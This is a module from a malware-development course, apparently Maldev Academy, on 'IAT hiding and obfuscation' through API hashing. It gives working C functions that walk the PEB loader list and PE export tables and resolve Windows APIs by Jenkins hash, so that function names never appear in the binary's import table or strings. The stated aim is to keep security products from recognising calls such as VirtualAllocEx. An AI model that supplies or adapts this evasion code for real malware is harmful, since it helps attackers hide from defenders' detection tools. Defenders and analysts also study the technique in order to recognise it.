 # 6.3 IAT Hiding & Obfuscation - API Hashing

### Introduction

In the previous two modules, two custom functions were created `GetProcAddressReplacement` and `GetModuleHandleReplacement` which replaced `GetProcAddress` and `GetModuleHandle`. This was sufficient for performing _Run-Time Dynamic Linking_ which hides the imported functions from the IAT. However, the strings used within the code reveal which functions are being used. For example, the line below uses the functions to retrieve `VirtualAllocEx`.

```c
GetProcAddressReplacement(GetModuleHandleReplacement("ntdll.dll"),"VirtualAllocEx")
```

Security solutions can easily retrieve the strings within the compiled binary and recognize that `VirtualAllocEx` is being used. To solve this problem, a string hashing algorithm will be applied to both `GetProcAddressReplacement` and `GetModuleHandleReplacement`. Instead of performing string comparisons to acquire the specified module base address or function address, the functions will work with hash values instead.

### Implementing JenkinsOneAtATime32Bit

The `GetProcAddressReplacement` and `GetModuleHandleReplacement` functions are renamed in this module to `GetProcAddressH` and `GetModuleHandleH`, respectively. These updated functions utilize the _Jenkins One At A Time_ string hashing algorithm to replace the function and module name with a hash value that represents them. Recall that this algorithm was utilized through the `JenkinsOneAtATime32Bit` function that was introduced in the _String Hashing_ module.

#### Hashing Strings

In order to use the functions shown in this module, it is necessary to obtain the hash value of a module name (e.g. `User32.dll`) and the hash value of the function name (e.g. `MessageBoxA`). This can be done by first printing the hashed values to the console. Ensure that the hashing algorithm uses the same seed.

```c
// ...

int main(){
	printf("[i] Hash Of \"%s\" Is : 0x%0.8X \n", "USER32.DLL", HASHA("USER32.DLL")); // Capitalized module name
	printf("[i] Hash Of \"%s\" Is : 0x%0.8X \n", "MessageBoxA", HASHA("MessageBoxA"));
	
  	return 0;
}
```

The above main function will output the following:

```c
[i] Hash Of "USER32.DLL" Is : 0x81E3778E
[i] Hash Of "MessageBoxA" Is : 0xF10E27CA
```

These hash values can now be used with the functions below.

#### Usage

The functions would be used the same way except now the hash value is passed rather than the string value.

```c
// 0x81E3778E is the hash of USER32.DLL
// 0xF10E27CA is the hash of MessageBoxA
fnMessageBoxA pMessageBoxA = GetProcAddressH(GetModuleHandleH(0x81E3778E),0xF10E27CA); 
```

### GetProcAddressH Function

`GetProcAddressH` is a function that is equivalent to `GetProcAddressReplacement` with the main difference being that the hash values of the `JenkinsOneAtATime32Bit` string hashing algorithm are employed to compare the exported function names to the input hash.

It's also worth noting that the code uses two macros to make the code cleaner and easier to update in the future.

- `HASHA` - Calling HashStringJenkinsOneAtATime32BitA (ASCII)
    
- `HASHW` - Calling HashStringJenkinsOneAtATime32BitW (UNICODE)
    

```c
#define HASHA(API) (HashStringJenkinsOneAtATime32BitA((PCHAR) API))
#define HASHW(API) (HashStringJenkinsOneAtATime32BitW((PWCHAR) API))
```

With that in mind, the `GetProcAddressH` is shown below. The function takes two parameters:

- `hModule` - A handle to the DLL module that contains the function.
    
- `dwApiNameHash` - The hash value of the function name to get the address of.
    

```c
FARPROC GetProcAddressH(HMODULE hModule, DWORD dwApiNameHash) {

	if (hModule == NULL || dwApiNameHash == NULL)
		return NULL;

	PBYTE pBase = (PBYTE)hModule;

	PIMAGE_DOS_HEADER         pImgDosHdr			  = (PIMAGE_DOS_HEADER)pBase;
	if (pImgDosHdr->e_magic != IMAGE_DOS_SIGNATURE)
		return NULL;

	PIMAGE_NT_HEADERS         pImgNtHdrs			  = (PIMAGE_NT_HEADERS)(pBase + pImgDosHdr->e_lfanew);
	if (pImgNtHdrs->Signature != IMAGE_NT_SIGNATURE)
		return NULL;

	IMAGE_OPTIONAL_HEADER     ImgOptHdr			  = pImgNtHdrs->OptionalHeader;
	
	PIMAGE_EXPORT_DIRECTORY   pImgExportDir		  = (PIMAGE_EXPORT_DIRECTORY)(pBase + ImgOptHdr.DataDirectory[IMAGE_DIRECTORY_ENTRY_EXPORT].VirtualAddress);


	PDWORD  FunctionNameArray	= (PDWORD)(pBase + pImgExportDir->AddressOfNames);
	PDWORD  FunctionAddressArray	= (PDWORD)(pBase + pImgExportDir->AddressOfFunctions);
	PWORD   FunctionOrdinalArray	= (PWORD)(pBase + pImgExportDir->AddressOfNameOrdinals);

	for (DWORD i = 0; i < pImgExportDir->NumberOfFunctions; i++) {
		CHAR*	pFunctionName       = (CHAR*)(pBase + FunctionNameArray[i]);
		PVOID	pFunctionAddress    = (PVOID)(pBase + FunctionAddressArray[FunctionOrdinalArray[i]]);

		// Hashing every function name pFunctionName
		// If both hashes are equal then we found the function we want 
		if (dwApiNameHash == HASHA(pFunctionName)) {
			return pFunctionAddress;
		}
	}

	return NULL;
}
```

### GetModuleHandleH

The `GetModuleHandleH` function is the same as `GetModuleHandleReplacement` with the main difference being that the hash values of the `JenkinsOneAtATime32Bit` string hashing algorithm will be used to compare the enumerated DLL names to the input hash. Notice how the function capitalizes the string in `FullDllName.Buffer`, therefore, the `dwModuleNameHash` parameter must be the hash value of a **capitalized** module name (e.g. USER32.DLL).

```c
HMODULE GetModuleHandleH(DWORD dwModuleNameHash) {

	if (dwModuleNameHash == NULL)
		return NULL;

#ifdef _WIN64
	PPEB      pPeb = (PEB*)(__readgsqword(0x60));
#elif _WIN32
	PPEB      pPeb = (PEB*)(__readfsdword(0x30));
#endif

	PPEB_LDR_DATA            pLdr  = (PPEB_LDR_DATA)(pPeb->Ldr);
	PLDR_DATA_TABLE_ENTRY	pDte  = (PLDR_DATA_TABLE_ENTRY)(pLdr->InMemoryOrderModuleList.Flink);

	while (pDte) {

		if (pDte->FullDllName.Length != NULL && pDte->FullDllName.Length < MAX_PATH) {
			
			// Converting `FullDllName.Buffer` to upper case string 
			CHAR UpperCaseDllName[MAX_PATH];

			DWORD i = 0;
			while (pDte->FullDllName.Buffer[i]) {
				UpperCaseDllName[i] = (CHAR)toupper(pDte->FullDllName.Buffer[i]);
				i++;
			}
			UpperCaseDllName[i] = '\0';

			// hashing `UpperCaseDllName` and comparing the hash value to that's of the input `dwModuleNameHash`
			if (HASHA(UpperCaseDllName) == dwModuleNameHash)
				return pDte->Reserved2[0];
			
		}
		else {
			break;
		}

		pDte = *(PLDR_DATA_TABLE_ENTRY*)(pDte);
	}

	return NULL;
}
```

### Demo

This demo uses `GetModuleHandleH` and `GetProcAddressH` to call `MessageBoxA`.

```c

#define USER32DLL_HASH      0x81E3778E
#define MessageBoxA_HASH    0xF10E27CA


int main() {
	
	// Load User32.dll to the current process so that GetModuleHandleH will work
	if (LoadLibraryA("USER32.DLL") == NULL) {
		printf("[!] LoadLibraryA Failed With Error : %d \n", GetLastError());
		return 0;
	}

	// Getting the handle of user32.dll using GetModuleHandleH 
	HMODULE hUser32Module = GetModuleHandleH(USER32DLL_HASH);
	if (hUser32Module == NULL){
		printf("[!] Cound'nt Get Handle To User32.dll \n");
		return -1;
	}

	// Getting the address of MessageBoxA function using GetProcAddressH
	fnMessageBoxA pMessageBoxA = (fnMessageBoxA)GetProcAddressH(hUser32Module, MessageBoxA_HASH);
	if (pMessageBoxA == NULL) {
		printf("[!] Cound'nt Find Address Of Specified Function \n");
		return -1;
	}

	// Calling MessageBoxA
	pMessageBoxA(NULL, "Building Malware With Maldev", "Wow", MB_OK | MB_ICONEXCLAMATION);

	printf("[#] Press <Enter> To Quit ... ");
	getchar();

	return 0;
}

```

![image](https://maldevacademy.s3.amazonaws.com/images/Intermediate/api-hashing-110060375-e0d6069b-7538-4b31-add1-92f72003f85c.png)

### Searching For MessageBox String

Using the [Strings.exe Sysinternal Tool](https://learn.microsoft.com/en-us/sysinternals/downloads/strings) search for the string "MessageBox".

![image](https://maldevacademy.s3.amazonaws.com/images/Intermediate/api-hashing-210060409-a932736a-ec54-4946-939f-750f44affa19.png)

It can be observed that there is no corresponding string in our binary. `MessageBoxA` was successfully called without being imported into the IAT or exposed as a string in our binary. This is applicable for both 32-bit and 64-bit systems.